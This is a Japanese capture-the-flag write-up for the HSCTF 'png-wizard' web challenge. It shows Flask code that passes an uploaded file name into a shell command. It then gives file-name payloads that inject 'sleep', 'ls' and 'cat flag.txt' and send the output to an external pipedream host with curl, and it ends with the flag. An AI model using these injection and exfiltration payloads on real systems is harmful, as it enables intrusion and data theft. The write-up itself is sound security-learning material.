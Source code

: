 # png-wizard:web:423pts
PNGs are clearly the superior image format.  
[http://web1.hsctf.com:8004/](http://web1.hsctf.com:8004/)  
Downloads  
[png-wizard.zip](png-wizard.zip)  

# Solution
URLとソースが与えられる。  
アクセスすると、画像をpngへ変換してくれるようだ。  
PNG Wizard  
[site1.png](site/site1.png)  
丁寧に動いているもののバージョンも教えてくれる。  
[site2.png](site/site2.png)  
ImageMagick 6.9.10-23でのExploitを狙うが見つからない。  
ソースを読むと以下のようであった。  
```python
~~~
def rand_name():
	return os.urandom(16).hex()

def is_valid_extension(filename: Path):
	return (
		filename.suffix.lower().lstrip(".")
		in ("gif", "jpg", "jpeg", "png", "tiff", "tif", "ico", "bmp", "ppm")
	)

~~~

@app.route("/", methods=["POST"])
def post():
	if "file" not in request.files:
		return render_template("index.html", error="No file provided")
	file = request.files["file"]
	if not file.filename:
		return render_template("index.html", error="No file provided")
	if len(file.filename) > 64:
		return render_template("index.html", error="Filename too long")
	
	filename = Path(UPLOAD_FOLDER).joinpath("a").with_name(file.filename)
	if not is_valid_extension(filename):
		return render_template("index.html", error="Invalid extension")
	
	file.save(filename)
	
	new_name = filename.with_name(rand_name() + ".png")
	
	try:
		subprocess.run(
			f"convert '{filename}' '{new_name}'",
			shell=True,
			check=True,
			stderr=subprocess.PIPE,
			timeout=5,
			env={},
			executable="/usr/local/bin/shell"
		)
	except subprocess.TimeoutExpired:
		return render_template("index.html", error="Command timed out")
	except subprocess.CalledProcessError as e:
		return render_template(
			"index.html",
			error=f"Error converting file: {e.stderr.decode('utf-8',errors='ignore')}"
		)
	finally:
		filename.unlink()
	
	return redirect(url_for("converted_file", filename=new_name.name))
~~~
```
拡張子をチェックして、`subprocess.run`でconvertしている。  
変換後のファイル名はランダムだが、送信したファイル名はそのまま用いるようだ。  
OSコマンドインジェクションが怪しい。  
試しに`s' 's';sleep 10;'.png`のようなファイルをアップロードしてみると、応答が遅れた。  
コマンドが実行できているようだ。  
以下のようにファイル名経由でコマンドを実行し、結果を外部のサーバでキャッチする。  
Burp Suiteでファイル名を変更し、キャッチするサーバは[RequestBin.com](https://requestbin.com/)を用いた。  
```
s' 's';curl xxxxxxxxxxxxx.x.pipedream.net?s=`ls`;'.png
```
lsを行うと`/?s=flag.txt`のリクエストを受け取った。  
ファイル名は`flag.txt`のようなので、以下のように読み出す。  
```
s' 's';curl xxxxxxxxxxxxx.x.pipedream.net?s=`cat flag.txt`;'.png
```
すると`/?s=flagmary_anning_d1d352e0`のリクエストを受け取った。  
`{`や`}`が消えているが、形式通り整形するとflagとなった。  

## flag{mary_anning_d1d352e0}